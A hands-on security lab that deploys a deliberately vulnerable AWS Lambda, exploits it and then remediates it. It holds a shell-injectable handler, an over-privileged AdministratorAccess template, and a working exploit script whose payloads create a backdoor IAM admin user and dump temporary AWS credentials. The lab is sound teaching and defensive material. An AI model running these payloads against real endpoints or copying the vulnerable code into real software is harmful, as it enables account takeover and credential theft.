

# 06 - Hands-On Lab: Vulnerable Lambda & Remediation

In this hands-on lab, you will deploy a vulnerable AWS SAM (Serverless Application Model) infrastructure containing a Python Lambda function. You will write and execute an automated exploit script that leverages **Command Injection** and an **Over-Privileged IAM Execution Role** to back-door an AWS account. Finally, you will apply production security mitigations to both application code and infrastructure.

---

## 🏗️ Lab Architecture & Setup



### Lab Prerequisites:
- AWS CLI (`aws`), AWS SAM CLI (`sam`), and Python 3.10+ installed.
- Access to an isolated sandbox AWS Account or [LocalStack](https://localstack.cloud/).

---

## 🛑 Phase 1: Vulnerable Application Infrastructure & Code

Create a local directory named `serverless-lab` containing `template.yaml` and `app.py`.

### 1. Vulnerable Infrastructure (`template.yaml`)

```yaml
AWSTemplateFormatVersion: '2010-09-09'
Transform: AWS::Serverless-2016-10-31
Description: Vulnerable Serverless Backup Application

Resources:
  BackupBucket:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub "vulnerable-backup-bucket-${AWS::AccountId}"

  # VULNERABLE: Function attached to AdministratorAccess policy
  VulnerableBackupFunction:
    Type: AWS::Serverless::Function
    Properties:
      FunctionName: BackupFunction
      Handler: app.handler
      Runtime: python3.10
      Timeout: 30
      # CRITICAL FLAW: Over-privileged IAM role grants full account control
      Policies:
        - AdministratorAccess
      Events:
        BackupApi:
          Type: Api
          Properties:
            Path: /backup
            Method: post

Outputs:
  BackupApiUrl:
    Description: "API Gateway Endpoint URL"
    Value: !Sub "https://`${ServerlessRestApi}.execute-api.$`{AWS::Region}.amazonaws.com/Prod/backup"
```

---

### 2. Vulnerable Application Handler (`app.py`)

```python
import json
import subprocess
import os

def handler(event, context):
    """
    VULNERABLE HANDLER: Concatenates user input into a shell string execution.
    """
    try:
        body = json.loads(event.get('body', '{}'))
        filename = body.get('filename')
        
        if not filename:
            return {
                "statusCode": 400,
                "body": json.dumps({"error": "Missing 'filename' in payload"})
            }

        # VULNERABLE: Direct string concatenation of unvalidated filename
        # Attacker payload: "test.txt; aws iam create-user --user-name backdoor-admin"
        command = f"tar -czvf /tmp/backup.tar.gz /tmp/{filename}"
        
        # VULNERABLE: shell=True executes string inside system shell
        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
        
        return {
            "statusCode": 200,
            "body": json.dumps({
                "message": "Backup created successfully",
                "output": output.decode('utf-8')
            })
        }
        
    except subprocess.CalledProcessError as e:
        return {
            "statusCode": 500,
            "body": json.dumps({
                "error": "Execution failed",
                "details": e.output.decode('utf-8')
            })
        }
    except Exception as e:
        return {
            "statusCode": 500,
            "body": json.dumps({"error": str(e)})
        }
```

---

## ⚔️ Phase 2: Exploitation Walkthrough

Save the following exploit script as `exploit.py`:

```python
import requests
import json
import sys

# Replace with your deployed API Gateway Endpoint URL
API_URL = "https://xxxxxx.execute-api.us-east-1.amazonaws.com/Prod/backup"

def run_exploit():
    print("[+] Step 1: Testing Command Injection & STS Identity Verification...")
    
    # Payload: Semicolon breaks tar command -> Executes AWS CLI identity lookup
    payload_sts = {
        "filename": "dummy.txt; aws sts get-caller-identity"
    }
    
    res1 = requests.post(API_URL, json=payload_sts)
    print(f"[*] Response Status: {res1.status_code}")
    print(f"[*] Response Body:\n{res1.text}\n")

    print("[+] Step 2: Exploiting AdministratorAccess to Create IAM Backdoor User...")
    
    # Payload: Create backdoor IAM user 'h4x0r-admin' and attach AdministratorAccess
    backdoor_cmd = (
        "dummy.txt; "
        "aws iam create-user --user-name h4x0r-admin && "
        "aws iam attach-user-policy --user-name h4x0r-admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess"
    )
    
    payload_backdoor = {
        "filename": backdoor_cmd
    }
    
    res2 = requests.post(API_URL, json=payload_backdoor)
    print(f"[*] Response Status: {res2.status_code}")
    print(f"[*] Response Body:\n{res2.text}\n")

    print("[+] Step 3: Exfiltrating Ephemeral IAM Credentials from Environment Variables...")
    payload_exfil = {
        "filename": "dummy.txt; env | grep AWS_"
    }
    res3 = requests.post(API_URL, json=payload_exfil)
    print(f"[*] Response Body (Stolen Temporary STS Credentials):\n{res3.text}")

if __name__ == "__main__":
    if "xxxxxx" in API_URL:
        print("[!] ERROR: Set API_URL variable to your deployed API Gateway endpoint.")
        sys.exit(1)
    run_exploit()
```

### Exploit Execution Step-by-Step:

1. **Deploy Vulnerable Stack:**
   ```bash
   sam build && sam deploy --guided
   ```
2. **Execute Exploit Script:**
   ```bash
   python exploit.py
   ```
3. **Exploit Output Verification:**
   The output displays `Account`, `Arn`, and temporary STS environment tokens exfiltrated directly from the Lambda environment, along with confirmation of the newly created IAM user `h4x0r-admin`.

---

## 🛠️ Phase 3: Root Cause Analysis & Security Audit

Before writing fixes, run static security analysis to audit the flaws:

```bash
# Scan IaC template for over-privileged policy
checkov -f template.yaml

# Scan Python code for shell execution flaws
semgrep --config p/ci app.py
```
*Findings:* Checkov flags `AdministratorAccess` policy on Lambda role. Semgrep flags `subprocess.check_output(..., shell=True)`.

---

## 🛡️ Phase 4: Step-by-Step Secure Remediation

To remediate this vulnerability, we must fix both the **code-level injection flaw** and the **infrastructure-level IAM policy**.

### 1. Remediated Application Code (`app.py`)

Replace `app.py` with the following secure implementation:

```python
import json
import subprocess
import os
import re

# Strict validation: filename must contain ONLY alphanumeric characters, dashes, dots, or underscores
FILENAME_REGEX = re.compile(r'^[a-zA-Z0-9_\-\.]+$')

def handler(event, context):
    """
    SECURE HANDLER: Enforces strict input validation and safe subprocess argument list.
    """
    try:
        body = json.loads(event.get('body', '{}'))
        filename = body.get('filename', '')
        
        # 1. Input Validation: Match against regex pattern
        if not filename or not FILENAME_REGEX.match(filename):
            return {
                "statusCode": 400,
                "body": json.dumps({"error": "Invalid filename syntax"})
            }

        # 2. Prevent Path Traversal
        safe_filename = os.path.basename(filename)
        input_file_path = f"/tmp/{safe_filename}"
        output_archive_path = "/tmp/backup.tar.gz"

        # Create dummy file if not existing for demonstration
        if not os.path.exists(input_file_path):
            with open(input_file_path, "w") as f:
                f.write("Sample backup content")

        # 3. SECURE EXECUTION: Array form, shell=False (default)
        command = ["tar", "-czvf", output_archive_path, input_file_path]
        
        output = subprocess.check_output(
            command,
            shell=False,  # Disables shell metacharacter expansion
            stderr=subprocess.STDOUT,
            timeout=5     # Enforce 5-second command timeout
        )
        
        return {
            "statusCode": 200,
            "body": json.dumps({"message": "Backup created securely"})
        }
        
    except subprocess.CalledProcessError as e:
        return {
            "statusCode": 500,
            "body": json.dumps({"error": "Backup creation failed"})
        }
    except Exception as e:
        return {
            "statusCode": 500,
            "body": json.dumps({"error": "Internal processing error"})
        }
```

---

### 2. Remediated Infrastructure Policy (`template.yaml`)

Replace `template.yaml` with the least-privilege specification:

```yaml
AWSTemplateFormatVersion: '2010-09-09'
Transform: AWS::Serverless-2016-10-31
Description: Secure Serverless Backup Application

Resources:
  SecureBackupBucket:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub "secure-backup-bucket-${AWS::AccountId}"
      PublicAccessBlockConfiguration:
        BlockPublicAcls: true
        BlockPublicPolicy: true
        IgnorePublicAcls: true
        RestrictPublicBuckets: true

  # SECURE: Per-function least privilege execution policy
  SecureBackupFunction:
    Type: AWS::Serverless::Function
    Properties:
      FunctionName: BackupFunction
      Handler: app.handler
      Runtime: python3.10
      Timeout: 5  # Strict timeout limit
      ReservedConcurrentExecutions: 20 # Cap concurrency DoW limit
      # SECURE: Grant ONLY S3WritePolicy strictly to destination bucket
      Policies:
        - S3WritePolicy:
            BucketName: !Ref SecureBackupBucket
      Events:
        BackupApi:
          Type: Api
          Properties:
            Path: /backup
            Method: post
```

---

## 🧪 Phase 5: Verification & Regression Testing

1. **Redeploy Secure Stack:**
   ```bash
   sam build && sam deploy
   ```
2. **Re-Run Exploit Script:**
   ```bash
   python exploit.py
   ```
3. **Expected Verification Outcome:**
   - Step 1 returns `400 Bad Request: {"error": "Invalid filename syntax"}`.
   - Command injection payload is rejected.
   - IAM role retains zero administrative capabilities, rendering command execution ineffective even if code logic fails.
